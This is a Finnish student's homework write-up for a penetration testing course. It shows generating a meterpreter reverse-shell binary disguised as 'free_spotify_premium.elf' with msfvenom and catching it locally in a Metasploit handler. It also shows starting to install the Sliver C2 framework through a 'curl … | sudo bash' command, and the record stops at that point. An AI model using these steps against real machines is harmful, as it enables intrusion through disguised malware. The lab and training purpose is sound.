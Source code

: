 # h6 Simpukoita
Kotitehtävä h5 Syyskuu2025! Tero Karvisen Tunkeutumistestaus 2025 syksy -kurssille. [Linkki kurssisivulle](https://terokarvinen.com/tunkeutumistestaus/)
Jokaisessa kohdassa on alla olevalla "quote" tyylillä kerrottu tehtävänanto.
>Liirum laarum laa...

## Tehtävät
### a) 
> Snif Venom! Näytä esimerkki yhteydestä: reverse shell msfvenom:lla tehdystä binääristä -> metasploit multi/handler. Tarkastele yhteysttä snifferillä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Aluksi tein reverse shell haittatiedoston msfvenomilla sekä vaihdoin tiedoston oikeudet.

    mdkdir msfvenom
    cd msfvenom
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf > free_spotify_premium.elf

![alt text](image.png)

Tämän jälkeen avasin `msfconsolen`. Sitten asetin moduulin `use exploit/multi/handler` sekä payloadin `set payload linux/x64/meterpreter/reverse_tcp`.

![alt text](image-1.png)

Sitten vielä LHOST:n sekä LPORT:n asettaminen.

![alt text](image-2.png)

 Kaikessa tässä pitää käyttää samoja asetuksia, kuin tehdyssä haittaohjelmassa.

Nyt testataan, että toimiiko reverse shell. Suoritetaan haittaohjelma ``./free_spotify_premium.elf`` sekä suoritetaan hyökkäys metasploitissa `use`. Ja sehän onnistui. 

![alt text](image-3.png)

Avasin wiresharkin ja valitsin, että wireshark tarkastelee ``loopback: lo`` interfacea. Vaikka meterpeter vain kuuntelee, näkyy silti sen ja kohdekoneen välinen liikenne wiresharkissa. 

![alt text](image-4.png)

 ### b)
 > Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.

Aloitin lataamalla sliverin komennolla `curl https://sliver.sh/install|sudo bash` jonka jälkeen käynnistin sen `sliver`

![alt text](image-5.png)



# Lähteet
https://terokarvinen.com/tunkeutumistestaus/
https://github.com/BishopFox/sliver
https://sliver.sh/
